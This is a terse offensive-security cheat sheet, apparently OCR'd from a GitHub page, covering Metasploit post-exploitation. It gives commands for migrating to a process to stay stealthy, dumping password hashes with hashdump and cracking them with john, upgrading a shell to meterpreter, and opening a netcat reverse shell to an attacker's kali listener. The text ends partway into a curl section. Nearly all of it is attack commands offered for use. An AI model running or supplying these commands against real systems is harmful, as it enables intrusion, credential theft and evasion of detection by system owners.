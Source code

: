 We can migrate to a process to be more stealth:
```bash
ps -U SYSTEM or whatever our privileges is;

migrate < PID >

getpid to see if it worked.

hashdump # to hash the pwd and shadow, but only works if we have SYSTEM privilege.
```

> get that and run john to crack


If we have a session already, we can upgrade to meterpreter session

by using:
```bash
post/multi/manage/shell_to_meterpreter
set session <number>
set lport and lhost
run

```


# Remote Code Executions

```bash
echo $PATH
# visit some of these locations and view what tools are there

# is netcat present?
which nc
# is python present?
which python
# is curl installed?
which curl
# is wget installed?
which wget
```

we can use these tools do get shell.

with netcat:
```bash
nc <IP> <port> -e /bin/bash
```

and listening in our kali
```bash
nc -lvnp <port>
```

## with CURL
In kali: 
```bash
nc -lvnp <port>
```
